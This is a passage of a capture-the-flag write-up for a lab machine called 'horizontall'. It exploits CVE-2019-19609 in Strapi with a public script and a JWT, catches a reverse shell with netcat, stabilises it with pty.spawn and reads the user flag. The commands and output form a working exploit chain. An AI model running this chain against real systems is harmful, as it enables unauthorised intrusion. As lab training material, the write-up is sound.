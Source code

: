## Obtaining User flag
After some more research, we also realize that this version of Strapi is vulnerable to CVE-2019-19609, which is authenticated RCE. Obtaining the exploit script from [here](https://github.com/diego-tella/CVE-2019-19609-EXPLOIT/blob/main/exploit.py), we are able to get a reverse shell (NOTE: The exploit may fail sometimes, when that happens just reset your machine LOLz)

```
┌──(kali㉿kali)-[~/Desktop/cve/CVE-2019-19609]
└─$ python3 exploit.py -d api-prod.horizontall.htb -jwt eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MywiaXNBZG1pbiI6dHJ1ZSwiaWF0IjoxNjMyMDI0MjM2LCJleHAiOjE2MzQ2MTYyMzZ9.Ua4b3mL761BCC3gTwYcpyxA9FyLdTvQqPxS1zuJb2qM -l 10.10.16.7 -p 3000
[+] Exploit for Remote Code Execution for strapi-3.0.0-beta.17.7 and earlier (CVE-2019-19609)
[+] Remember to start listening to the port 3000 to get a reverse shell
[+] Sending payload... Check if you got shell
[+] Payload sent. Response:
<Response [504]>
<html>
<head><title>504 Gateway Time-out</title></head>
<body bgcolor="white">
<center><h1>504 Gateway Time-out</h1></center>
<hr><center>nginx/1.14.0 (Ubuntu)</center>
</body>
</html>
```

After obtaining the reverse shell, we will stabilize our shell.

```
┌──(kali㉿kali)-[~]
└─$ nc -nlvp 3000  
listening on [any] 3000 ...
connect to [10.10.16.7] from (UNKNOWN) [10.10.11.105] 57282
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
strapi@horizontall:~/myapi$ export TERM=xterm
export TERM=xterm
strapi@horizontall:~/myapi$ stty cols 132 rows 34
stty cols 132 rows 34
strapi@horizontall:~/myapi$
```

Lastly, we will then obtain our user flag. 

```
strapi@horizontall:~/myapi$ cd /home/developer
cd /home/developer
strapi@horizontall:/home/developer$ ls
ls
composer-setup.php  myproject  user.txt
strapi@horizontall:/home/developer$ cat user.txt
cat user.txt
<Redacted user flag>
strapi@horizontall:/home/developer$ 
```
